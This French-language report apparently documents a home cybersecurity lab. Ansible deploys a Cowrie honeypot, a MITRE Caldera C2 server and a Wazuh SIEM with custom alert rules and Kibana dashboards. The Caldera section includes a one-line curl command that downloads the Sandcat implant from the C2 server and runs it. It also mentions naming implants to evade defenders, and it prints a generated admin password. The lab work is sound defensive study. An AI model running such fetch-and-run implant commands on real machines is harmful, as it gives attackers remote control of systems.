## **Introduction**

Dans un contexte où la cybersécurité devient chaque jour plus critique, il est primordial de disposer d'un environnement de test permettant de simuler des attaques et d'analyser les comportements des attaquants en temps réel. Ce projet vise à automatiser la mise en place d'un lab de cybersécurité à l'aide d'Ansible, en orchestrant le déploiement et la configuration de plusieurs machines virtuelles (VMs). Grâce à l'intégration de solutions telles que Caldera pour simuler des attaques C2, Cowrie pour agir comme honeypot, et Wazuh pour centraliser et analyser les logs, l'objectif est de créer un écosystème complet permettant d'étudier les tactiques, techniques et procédures (TTPs) des attaquants et de valider la résilience d'une infrastructure.

---

## 1. Configuration et déploiement de l'environnement

Pour ce projet, nous allons configurer un environnement de test avec **4 machines virtuelles (VMs)** sous VMware, chacune ayant une mission définie. Commençons par la première :

- **VM Cowrie (Honeypot)**  
    Installée sous Ubuntu 22.04 et assignée à une IP statique (`192.168.243.130`), cette machine simulera un serveur vulnérable exposé sur SSH/Telnet via l’outil Cowrie. Son rôle est double : Attirer les attaquants en imitant des services sensibles et capturer leurs actions (commandes, téléchargements, etc.) tout en transférant ces logs vers notre SIEM pour analyse.


- **VM Caldera (Serveur C2)**  
    Hébergée sur Ubuntu 22.04 (IP : `192.168.243.131`), cette machine exécutera la plateforme Caldera pour orchestrer des attaques réalistes. Grâce à son agent Sandcat, déployé sur les cibles, elle permettra de tester nos défenses en reproduisant des techniques MITRE ATT&CK, telles que l’exfiltration de données ou les mouvements latéraux.
    


- **VM Wazuh (SIEM)**  
    Sur Ubuntu 22.04 (IP : `192.168.243.132`), cette machine centralisera les logs des autres machines via Wazuh Manager. Pour renforcer son utilité, nous y intégrerons Elasticsearch et Kibana afin de visualiser les données en temps réel. Un point crucial sera la création de règles personnalisées pour détecter les TTPs référencés par MITRE, permettant d’identifier rapidement les comportements suspects.
    


- **VM Ansible (Automatisation)**  
    Sur Ubuntu 22.04 (IP : `192.168.243.129`), contiendra les playbooks Ansible pour déployer et configurer les autres VMs sans intervention manuelle. Par exemple, un playbook pourra installer Cowrie avec ses dépendances, un autre configurera Wazuh avec ses connecteurs, et un troisième déploiera Caldera avec ses profils d’attaques prédéfinis. Cette centralisation réduit les erreurs et accélère les mises à jour.


La VM Cowrie tournera sous 2 Go de RAM et 20 Go de stockage, la VM Caldera sous 2 Go de RAM et 20 Go de stockage, la VM Wazuh sous 4 Go de RAM et 40 Go de stockage, et la VM Ansible sous 1 Go de RAM et 20 Go de stockage. Toutes les machines utiliseront Ubuntu 22.04.

L’idée est de créer un écosystème cohérent dans lequel les interactions entre le honeypot, le simulateur d’attaques (Caldera) et le SIEM (Wazuh) permettent de valider la résilience globale de l'infrastructure. L'automatisation via Ansible ajoute une couche de reproductibilité essentielle pour des tests itératifs et garantit la cohérence des configurations.

## 2. Mise à jour et installation des outils de base


### 2.1. Installation de base (pour toutes les VMs)

Pour cette opération on se servira de notre vm-ansible pour deployer les configurations sur les trois autres machines

- **Installation d'Ansible (Control Node)**

```bash
sudo apt update
sudo apt install -y ansible git
```



- Vérification :

```bash
ansible --version
```



### 2.2 Configuration de l'Environnement Ansible

-  Création de la structure de nos dossiers :

```bash
mkdir -p ~/ansible-cowrie/{inventory,playbooks}
cd ~/ansible-cowrie
```


-  Création du fichier d'inventaire (`inventory.ini`) :
  
  


```yaml
---
- name: Configuration de base des machines Ubuntu
  hosts: all
  become: yes

  tasks:

    - name: Mise à jour des paquets
      apt:
        update_cache: yes
        upgrade: dist
        
    - name: Installer les outils de base
      apt:
        name:
          - openssh-server
          - git
          - curl
          - ufw
          - wget
          - htop
          - net-tools
          - software-properties-common
          - python3
          - python3-pip
          - python3-venv
          - bash-completion
        state: present
        
    - name: Activer et démarrer le service SSH
      systemd:
        name: ssh
        enabled: yes
        state: started
        
    - name: Configurer le pare-feu UFW
      ufw:
        state: enabled
        policy: deny
        direction: incoming
        
    - name: Autoriser SSH dans le pare-feu
      ufw:
        rule: allow
        port: 22
        proto: tcp
        
    - name: Nettoyage du système
      apt:
        autoremove: yes
        autoclean: yes
```


Il nous faut ensuite configurer **le sudo sans mot de passe (NOPASSWD)** via un **playbook Ansible**, pour que nos machines distants puissent exécuter des commandes avec sudo sans devoir entrer leur mot de passe à chaque fois.

Voici à quoi ressemblera notre playbook:

```yaml
---
- name: Activer sudo sans mot de passe (NOPASSWD)
  hosts: all
  become: true
  tasks:
    - name: Créer un fichier sudoers pour autoriser NOPASSWD
      copy:
        dest: "/etc/sudoers.d/{{ ansible_user }}_nopasswd"
        content: "{{ ansible_user }} ALL=(ALL) NOPASSWD:ALL"
        owner: root
        group: root
        mode: '0440'

```



>Ce playbook utilise la variable `ansible_user` pour adapter la ligne à chaque machine.


Étant donné que l'option NOPASSWD n'est pas encore activé, il faudra lancer notre playbook avec l'option``--ask-become-pass`` puis ensuite on pourra éxécuter tous les futurs playbooks sans cette option.

```BASH
ansible-playbook -i inventory/hosts.ini playbooks/sudo_nopasswd.yml --ask-become-pass
```



On exécute ensuite nôtre playbook setup.yml pour lancer l'opération de configuration de nos différentes machines: 

```bash
ansible-playbook -i hosts.ini ../playbook/setup.yml
```



Le playbook s’est bien déroulé comme on peut le voir, sans aucune erreur, et tout devrait donc être fonctionnel.

## 3. Installation et configuration des services

### 3.1. VM Cowrie (Honeypot)

À ce niveau, nous allons d'abord procéder manuellement pour nous familiariser avec l'outil, avant d'automatiser le déploiement à l'aide d'un playbook Ansible.

### 3.2. Déploiement manuel

##### a) Installation des dépendances et de Cowrie

1. Installation des paquets requis :



```bash
sudo apt install git python3-virtualenv python3-dev libssl-dev libffi-dev build-essential -y
```

2. clonage du dépôt Cowrie :

```
git clone https://github.com/Cowrie/Cowrie.git
cd Cowrie
```

3. Création et activation d'un environnement virtuel :

```bash
virtualenv Cowrie-env
source Cowrie-env/bin/activate
```

4. Mise à jour et installation des dépendances Python: 
 
```bash
pip install --upgrade pip
pip install -r requirements.txt
```



**b) Configuration et démarrage**

1. Copie et vérification du fichier de configuration :



```bash
cp Cowrie.cfg.dist Cowrie.cfg
nano Cowrie.cfg
```

```bash
[ssh]
# Écoute sur le port 2222, toutes interfaces (0.0.0.0)
listen_endpoints = tcp:2222:interface=0.0.0.0

# Port que l'attaquant "voit" (22 pour l'illusion)
guest_ssh_port = 22  #

[output_jsonlog]
enabled = true
logfile = ${honeypot:log_path}/Cowrie.json
epoch_timestamp = false
```

2. Scan de ports nmap et redirection de port  
   
**`guest_ssh_port`**  est juste un *Leurre logiciel** (pour l'attaquant connecté). Lors d'un scan  ``nmap 192.168.243.130 -p 22,2222`` dans l''etat actuel, l'attaquant verra: 

```bash
> PORT     STATE  SERVICE
22/tcp   closed ssh      # Port 22 fermé (pas de redirection)
2222/tcp open   ssh      # Cowrie écoute ici, identifié comme SSH
```

Sans redirection ``authbind``, seul le port **2222** est visible
Nmap détecte un service SSH sur ce port. Tandis qu'avec une redirection 22 → 2222 le résultat ressemblera à ça: 

```bash
PORT     STATE  SERVICE
22/tcp   open   ssh      # Redirection vers Cowrie (2222)
2222/tcp open   ssh      
```

Correspond donc mieux à notre vision et permettra aux attaquants ciblant le port 22 standard d'être automatiquement dirigés vers le honeypot.

- **Étape 1 : Installation de authbind**

```bash
sudo apt update && sudo apt install -y authbind
```

- **Étape 2 : Configuration de authbind pour le port 22**

1. Création du  fichier de règle pour le port 22 :
    
```bash
sudo touch /etc/authbind/byport/22
```
    
1. Définir les permissions pour l'utilisateur `Cowrie` :
    
```bash
sudo chown Cowrie:Cowrie /etc/authbind/byport/22
sudo chmod 770 /etc/authbind/byport/22
```

- **Étape 3 : Modification de la configuration de Cowrie**

Dans `Cowrie.cfg`, il faudra ajuster la section `[ssh]` pour écouter directement sur le port 22 :



> À  cette étape on pourrait activer manuellement notre service avec la commande ``bin/Cowrie start`` mais celà est plus utile dans un cas où on voudrait faire un test rapide. En environnement de production ou dans un cas de projet comme le notre nous utiliseront systemd pour des raisons de fiabilité mais surtout de persistance et d'intégration système.


- **Étape 4 : Création du fichier de service systemd**

1. Création et configuration du fichier:

```bash
sudo nano /etc/systemd/system/cowrie.service
```

Nous utiliserons cette configuration: 

```bash
[Unit]
Description=A SSH and Telnet honeypot service
After=network.target
After=rsyslog.service

[Service]
User=Cowrie
Group=Cowrie
Restart=always
RestartSec=5
Environment=PYTHONPATH=/home/cowrie/cowrie/src
WorkingDirectory=/home/cowrie/cowrie
ExecStart=/home/cowrie/cowrie/cowrie-env/bin/python /home/cowrie/cowrie/cowrie-env/bin/twistd --umask 0022 --nodaemon --pidfile= -l - cowrie

ExecStart=/usr/bin/authbind --deep /home/cowrie/cowrie/cowrie-env/bin/python /home/cowrie/cowrie/cowrie-env/bin/twistd --umask 0022 --nodaemon --pidfile= -l - Cowrie


StandardOutput=syslog
StandardError=syslog
SyslogIdentifier=Cowrie

[Install]
WantedBy=multi-user.target
```

2. **Rechargement de systemd et démarrage de Cowrie**

```bash
sudo systemctl daemon-reload 
sudo systemctl start cowrie
```

3. ** Configuration 
4. **Activation du démarrage automatique (optionnel)**

```bash
sudo systemctl enable cowrie
```

4. **Vérification de l'état du service**



Le service comme on peut le voir est donc bien fonctionnel, mais il démarre toujours sur le port 2222. Suite à quelaues recherches sur l'erreur on apprends que dans certains environnements, systemd peut ne pas transmettre l’environnement habituel à authbind. 

Une alternative consiste à utiliser la méthode des capacités Linux pour permettre à Python de binder sur un port privilégié sans être root. On peut utiliser:

```
sudo setcap cap_net_bind_service=+ep $(readlink -f /home/Cowrie/Cowrie/Cowrie-env/bin/python)
```

Depuis notre VM Caldera on a pu se connecter et confirmer que notre honeypot marche bien:

>Cowrie accepte **n'importe quel identifiant et mot de passe** pour la connexion SSH, car son but est de piéger les attaquants et d'enregistrer leurs tentatives.



### 3.3. Automatisation du déploiement avec Ansible

**Notre playbook devra exécuter les tâches ci-après :**

- Installer les paquets essentiels
- Cloner le dépôt Git de Cowrie dans le répertoire approprié
- Créer un environnement virtuel dans le dossier de Cowrie
- Installer les dépendances Python listées dans le fichier _requirements.txt_
- Copier le fichier de configuration d'exemple pour initialiser la configuration
- Modifier la configuration pour que Cowrie écoute sur le port 22
- Déployer le service systemd pour démarrer automatiquement Cowrie
- Activer et démarrer le service Cowrie

Dans notre dossier de playbooks, nous créons un fichier YAML nommé `deploy_cowrie.yml` qui contiendra l'ensemble de ces tâches. Voici le contenu complet du playbook :

```yaml
---
- name: Déployer Cowrie avec authbind
  hosts: cowrie
  become: yes
  vars:
    cowrie_user: cowrie
    cowrie_dir: "/home/{{ cowrie_user }}/Cowrie"
    cowrie_env: "{{ cowrie_dir }}/Cowrie-env"

  tasks:
    - name: Créer l'utilisateur cowrie
      user:
        name: "{{ cowrie_user }}"
        shell: /bin/bash
        home: "/home/{{ cowrie_user }}"
        create_home: yes

    - name: Installer les dépendances
      apt:
        name:
          - git
          - python3-virtualenv
          - python3-dev
          - libssl-dev
          - libffi-dev
          - build-essential
          - authbind
        state: present
        update_cache: yes

    - name: Cloner Cowrie
      git:
        repo: https://github.com/cowrie/cowrie.git
        dest: "{{ cowrie_dir }}"
        version: main

    - name: Créer l'environnement virtuel
      command: "python3 -m venv {{ cowrie_env }}"
      args:
        chdir: "{{ cowrie_dir }}"
        creates: "{{ cowrie_env }}"

    - name: Installer les dépendances Python
      pip:
        executable: "{{ cowrie_env }}/bin/pip"
        requirements: "{{ cowrie_dir }}/requirements.txt"

    - name: Configurer authbind pour le port 22
      file:
        path: /etc/authbind/byport/22
        state: touch
        mode: '0770'
        owner: "{{ cowrie_user }}"
        group: "{{ cowrie_user }}"

    - name: Copier le fichier de configuration cowrie.cfg
      copy:
        src: "{{ cowrie_dir }}/etc/cowrie.cfg.dist"
        dest: "{{ cowrie_dir }}/etc/cowrie.cfg"
        remote_src: yes
      notify: Redémarrer Cowrie

    - name: Modifier le port d'écoute dans cowrie.cfg
      replace:
        path: "{{ cowrie_dir }}/etc/cowrie.cfg"
        regexp: '^#?listen_endpoints = .*'
        replace: 'listen_endpoints = tcp:22:interface=0.0.0.0'
      notify: Redémarrer Cowrie

    - name: Déployer le service systemd pour Cowrie
      copy:
        dest: /etc/systemd/system/cowrie.service
        content: |
          [Unit]
          Description=Cowrie SSH Honeypot
          After=network.target

          [Service]
          User={{ cowrie_user }}
          Group={{ cowrie_user }}
          WorkingDirectory={{ cowrie_dir }}
          ExecStart=/usr/bin/authbind --deep {{ cowrie_env }}/bin/python {{ cowrie_dir }}/bin/cowrie start --nodaemon
          Restart=always
          RestartSec=5s

          [Install]
          WantedBy=multi-user.target
      notify: Redémarrer Cowrie

    - name: Activer et démarrer le service Cowrie
      systemd:
        name: cowrie
        state: started
        enabled: yes
        daemon_reload: yes

  handlers:
    - name: Redémarrer Cowrie
      systemd:
        name: cowrie
        state: restarted

```

On éxécute ensuite notre playbook avec la commande:

```bash
ansible-playbook -i ../inventory/inventory.ini deploy-cowrie.yml
```



Comme on peut le voir toutes les tâches ont été effectuées avec succès.

## 4. VM Caldera – Déploiement du Serveur C2

### 4.1. Installation de Caldera

- **Clonage du dépôt et préparation de l'environnement**  
    La récupération du code source et la préparation de l'environnement Python se font par les commandes suivantes :

```bash
git clone https://github.com/mitre/caldera.git
cd caldera
python3 -m venv env
source env/bin/activate
pip install --upgrade pip
pip install -r requirements.txt

```

### 4.2. Compilation du Front-end et Accès à l'interface web

La construction des composants VueJS se déclenche avec le lancement du serveur en ajoutant l'option `--build` (la présence de Node.js et npm est requise) :


```
python3 server.py --insecure --build
```



- **Accès à l'interface**  
    L'interface web est accessible via l'URL [http://localhost:8888](http://localhost:8888) ou via l'adresse IP de la VM Caldera.  
    Les identifiants par défaut, tels qu'indiqués dans le fichier de configuration (`red` pour le nom d'utilisateur et `admin` pour le mot de passe), permettent l'accès à l'interface.






> On peux modifier les identifiants par défauts et configurations contenues dans le fichier ``/Caldera/conf/dafault.yml 



### 4.3. Intégration de plugins

Les messages du serveur indiquent l'activation de plugins tels que Sandcat, Atomic, Manx, etc. Pour le plugin Atomic Red Team, une erreur est survenu empêchant le clonage. Un clonage manuel sera donc effectué.

```bash
mkdir -p plugins/atomic/data
git clone https://github.com/redcanaryco/atomic-red-team.git plugins/atomic/data/atomic-red-team
```



>Atomic Red Team est une bibliothèque open source de tests de sécurité mappés au framework MITRE ATT&CK, permettant aux équipes de sécurité de simuler des techniques d'attaque pour évaluer et améliorer leurs défenses.


### 4.4. Déploiement de l'agent Caldera sur la VM Cowrie

Dans la section **CAMPAIGNS>agents** cliquer sur **Deploy an agent** puis renseigner les informations nécessaires comme suit:

> Dans un exercice Red Team la variable ``agents.implant_name`` aurait eu un nom peu évident pour éviter les soupçons ou détection rapide par la Blue Team. Dans notre cas on l'appelera juste Caldera pour un suivi simple



1. Génération et exécution de la commande de déploiement de l'agent:
  
```bash
  server="http://192.168.243.131:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > caldera;chmod +x caldera;./caldera -server $server -group red -v
```
  
  
  
  - Le processus de déploiement est ainsi achevé et l'agent Caldera a pu établir une connexion comme l'indique l'apparition de notre cible dans la section agents du dashboard avec le statut ``Alive,trusted``:


  
  1. Simulation d'attaques et exécution de commandes distantes:

Pour cette étape nous allons dans la section **CAMPAIGNS > operations** puis sélectionner l'option **New Operation**.

Ici plusieurs options s'offrent à nous de l'exécution de commandes manuelles à la création et/ou l'utilisation de profils d'adversaires pré-enregistrés, offrant une éxécution automatisé d'ensembles de commandes pour conduire diverses opérations allant de la reconnaissance, aux mouvements latérals, en passant par de l'evasion d'AV et pleins d'autres choses.



Dans notre cas on utilisera le profil Discovery pour rapidement avoir un apperçu: 



Comme on peut le voir sur la sortie tout fonctionne correctement, et il ne nous reste qu'à configurer le monitoring et l'agrégation des logs avec notre SIEM. 


## 5. VM Wazuh – Déploiement du SIEM

### 5.1. Installation

- **Utilisation du script d'installation**  
    La méthode recommandée pour installer l'ensemble des composants (Wazuh Server, Indexer et Dashboard) consiste à utiliser le script officiel en mode « all-in-one ».  
    La commande suivante (exécutée sur notre VM Wazuh, IP 192.168.243.132) télécharge et lance le script :

```bash
curl -sO https://packages.Wazuh.com/4.11/Wazuh-install.sh && sudo bash ./Wazuh-install.sh -a -o
```




- Accès au dashboard avec nos identifiants:
  
```bash
INFO: You can access the web interface 
https://<Wazuh-dashboard-ip>:443
User: admin
Password: LlFP5?DlyG*n5q+H76xZgQj*dJeb7scl
INFO: Installation finished.
```





> Pour des raison de sécurité ou de covenience on pourrait changer les identifiants généré par défaut, ce qui est fortement conseillé en prod mais pour notre projet on le maintiendra tel quel.



### 5.2 Installation de l'Agent Wazuh sur la VM Cowrie

Dans la section **Agents management > Summary**,  après avoir cliqué sur **Deploy new agent** on renseigne les informations relatifs à notre machine et l'adresse du serveur (VM Cowrie ``192.168.243.130``) 



- Sur notre **VM Cowrie** on colle, puis exécute la commande et on obtient un résultat similaire à celui ci-dessous:  



- Activation et démarrage du service **Wazuh-agent**
  
```bash
systemctl daemon-reload
systemctl enable Wazuh-agent
systemctl start Wazuh-agent
```

- Le processus de déploiement est maintenant terminé et l'agent Wazuh fonctionne avec succès sur votre système Linux et comme le montre la capture de la section endpoints-summary.
>
   
  
  
  > La documentation officielle recommande de désactiver les mises à jour de Wazuh étant donné que la compatibilité entre l'agent Wazuh et le gestionnaire de Wazuh n'est garantie que lorsque la version Wazuh Manager est supérieur ou égale à celle de l'agent Wazuh et donc d'éviter les mises à niveau accidentelles en utilisant la commande: 
>```
sed -i "s/^deb/#deb/" /etc/apt/sources.list.d/Wazuh.list && apt-get update
>```
>**NB:** Pour de futurs mises à jour il nous suffira de dé-commenter cette ligne dans le fichier /etc/apt/sources.list.


### 5.3 Configuration du monitoring des logs Cowrie



Un **Groupe** nommé **cowrie** a été créé et assigné à l'agent via le dashboard, en y intégrant la configuration suivante dans le fichier **_agent.conf_**:


```xml
<agent_config>
  <localfile>
    <log_format>json</log_format>
    <location>/home/cowrie/cowrie/var/log/cowrie/cowrie.json</location>
  </localfile>
</agent_config>
```



>Cette configuration permet de diriger l’analyse des logs vers le fichier **_cowrie.json_**. Comme le montre la capture de la rubrique **log data analysis** de la section **Agents Management > Summary**, le chemin est correctement renseigné.



>À cette étape, aucune alerte n’apparaît encore dans le SIEM, car les règles d’alerte spécifiques n’ont pas encore été définies.

### 5.4. Définition des Règles d’Alerte Personnalisées

Les règles suivantes ont été définies pour détecter les événements spécifiques issus de Cowrie. Ces règles seront collées dans le fichier **local_rules.xml** via le dashboard (**Server Management > Rules > Manage rules > Manage rules files > Custom rules**) :

```xml
<group name="cowrie">
  <!-- Règle pour détecter le début d'une session sur Cowrie -->
  <rule id="100010" level="3">
    <decoded_as>json</decoded_as>
    <match>cowrie.session.params</match>
    <description>Session démarrée sur le honeypot Cowrie</description>
    <group>cowrie,session</group>
  </rule>

  <!-- Règle pour détecter une commande saisie sur Cowrie -->
  <rule id="100011" level="5">
    <decoded_as>json</decoded_as>
    <match>cowrie.command.input</match>
    <description>Commande saisie sur le honeypot Cowrie</description>
    <group>cowrie,command</group>
  </rule>

  <!-- Règle pour détecter une commande échouée sur Cowrie -->
  <rule id="100012" level="7">
    <decoded_as>json</decoded_as>
    <match>cowrie.command.failed</match>
    <description>Commande échouée sur le honeypot Cowrie</description>
    <group>cowrie,command</group>
  </rule>

  <!-- Règle pour détecter la fermeture d'une session sur Cowrie -->
  <rule id="100013" level="4">
    <decoded_as>json</decoded_as>
    <match>cowrie.session.closed</match>
    <description>Session fermée sur le honeypot Cowrie</description>
    <group>cowrie,session</group>
  </rule>
</group>
```






### 5.5. Test de la Configuration et Simulation d’Attaques

Depuis nos autres VM, on initie une connexion SSH vers le honeypot afin de simuler une attaque. Plusieurs commandes (ex. : `whoami`, `ls -alh > ~/bin-list.txt | tail -n 5 ~/bin-list.txt`, `ps aux | grep 'system'`, `ls -alh`) selon le profil discory de notre C2 caldera sont exécutées, puis la session est fermée. Ces interactions génèrent des entrées dans notre fichier de logs _cowrie.json_.








De retour dans la section **Discover** du SIEM, on peut bel et bien constater l’apparition des alertes relatives aux opérations sur le honeypot selon les règles définies. 




### 5.6 Analyse des logs

Le champ `data.src_ip`, indiquant **192.168.243.130**, confirme que l'opération provient bien de notre VM Ansible. Par ailleurs, le champ `location` précise que le log provient du chemin **/home/cowrie/cowrie/var/log/cowrie/cowrie.json**, ce qui correspond à celui de notre honeypot. De plus, le champ `rule.description`, avec des mentions telles que **Commande saisie sur le honeypot Cowrie** ou **Session fermée sur le honeypot Cowrie**, nous informe de l’alerte déclenchée, conformément aux règles définies dans le fichier **local_rules.xml**. D'autres champs, comme `data.input` qui recense les commandes exécutées, ou `timestamp` qui enregistre l’horodatage, fournissent également des informations essentielles pour le suivi et l'investigation de la provenance des attaquants, l'analyse des TTP (Tactiques, Techniques et Procédures) ainsi que d'autres éléments pertinents.




Ici nous pouvons voir les même informations relatives à l'ip source **192.168.243.129**  donc à notre connexion depuis la VM Ansible. 

### 5.7. Analyse Approfondie et Visualisation

Une fois les alertes générées, des étapes supplémentaires peuvent nous permettre d’isoler et d’analyser les logs liés au honeypot :

1. **Isolation des Logs du Honeypot :**  
  
    Pour concentrer l’analyse sur l’activité malveillante capturée par Cowrie, nous utilisons les **filtres avancés** de Kibana :

- **Filtre par agent** : `agent.name : "cowrie-vm"` pour isoler les événements du honeypot.
    
- **Filtre par tag** : `rule.groups : "cowrie"` pour cibler les règles personnalisées dédiées.

> Cette isolation permet de se concentrer sur les données pertinentes et d’éviter le bruit généré par d’autres sources.



   


Pour optimiser l’analyse, le résultat de cette recherche est sauvegardé (sous le nom ``honey-pots-log``) afin de générer une visualisation spécifique aux événements de notre honeypot.
  


2. **Création de Visualisations Personnalisées :**  
  
    Nos visualisations regrouperont les indicateurs clés (nombre de sessions, commandes exécutées, taux d’échec, etc.) avec des graphiques.  


>Ces graphs permettront d’obtenir un aperçu global de l’activité sur le honeypot et de détecter des comportements anormaux.

##### - **Pie Chart (Diagramme circulaire)**

Un _Pie Chart_ permet de visualiser la **répartition proportionnelle** des données. Dans notre cas, il met en évidence les types d’alertes les plus fréquents et la distribution des commandes suspectes sur le honeypot.

  
  
_Top 10 des alertes globales (source : wazuh-metrics-_)*
  
  

_Principales alertes du honeypot (source : honey-pots-log)_
  
  
  
_Configuration de la visualisation avec la vue sauvegardée_

##### - **Metrics (Indicateurs clés)**

Une visualisation de type metrics offre un aperçu synthétique et en temps réel d'une ou plusieurs valeurs clés, telles que le nombre total d’alertes, La criticité moyenne des incidents ou un taux d’échec global.

> Ce type de représentation est particulièrement utile pour surveiller l'état général du système, car il permet de visualiser rapidement des indicateurs critiques


_Indication du nombre global d'alertes (source : wazuh-metrics-_)*

## 6. Dashboard

Le dashboard final intègre l’ensemble des visualisations créées :

1. Le **Top 10 des alertes globales** : Détecte les tendances à l’échelle de l’infrastructure.
    
2. Les **principales alertes du honeypot** : Identifie les attaques spécifiques à Cowrie.
    
3. Un **aperçu général des alertes** : Offre une synthèse chiffrée des événements.





Cette interface synthétique offre une vue d’ensemble qui facilite la surveillance continue et permet d’identifier instantanément les zones nécessitant une attention particulière, à travers une **détection rapide** des pics d’activité suspecte, une **corrélation visuelle** entre les attaques simulé et les logs du honeypot, et enfin une **base décisionnelle** pour ajuster les règles Wazuh et nos stratégies de défense en conséquence.


## **Conclusion:**
   
L'objectif principal était de créer un environnement de test complet permettant de simuler des attaques, de collecter des logs et de les analyser en temps réel pour mieux comprendre le comportement des attaquants.

La configuration de Cowrie a permis de capturer des interactions variées sur le honeypot, telles que l'ouverture et la fermeture de sessions, l'exécution de commandes et les tentatives d'attaques échouées. Parallèlement, Caldera a été utilisé pour orchestrer divers profils d'attaque (Discovery, Lateral Movement, etc.), offrant ainsi une dimension offensive à l'environnement de test. L'intégration des logs via Wazuh a fourni une visibilité centralisée sur l'activité des agents, permettant d'extraire des informations critiques et de générer des alertes basées sur des règles personnalisées.

Les résultats obtenus illustrent l'efficacité d'une approche « défense en profondeur » : en combinant la détection proactive avec l'analyse centralisée, il est possible de détecter et d'analyser rapidement les comportements suspects, tout en obtenant des données exploitables pour renforcer la sécurité globale. Cette approche offre ainsi un cadre solide pour la surveillance continue et l'amélioration des défenses face à des menaces de plus en plus sophistiquées.


## Références:

[https://docs.ansible.com](https://docs.ansible.com)
[https://github.com/cowrie/cowrie](https://github.com/cowrie/cowrie)
[https://cowrie.readthedocs.io](https://cowrie.readthedocs.io)  
[https://github.com/mitre/caldera](https://github.com/mitre/caldera)  
[https://caldera.readthedocs.io](https://caldera.readthedocs.io)
[https://documentation.wazuh.com](https://documentation.wazuh.com)
[https://attack.mitre.org](https://attack.mitre.org)  
[https://github.com/redcanaryco/atomic-red-team](https://github.com/redcanaryco/atomic-red-team)
[https://github.com/wazuh/wazuh-ruleset](https://github.com/wazuh/wazuh-ruleset)  
[https://docs.ansible.com/ansible/latest/playbook_guide](https://docs.ansible.com/ansible/latest/playbook_guide)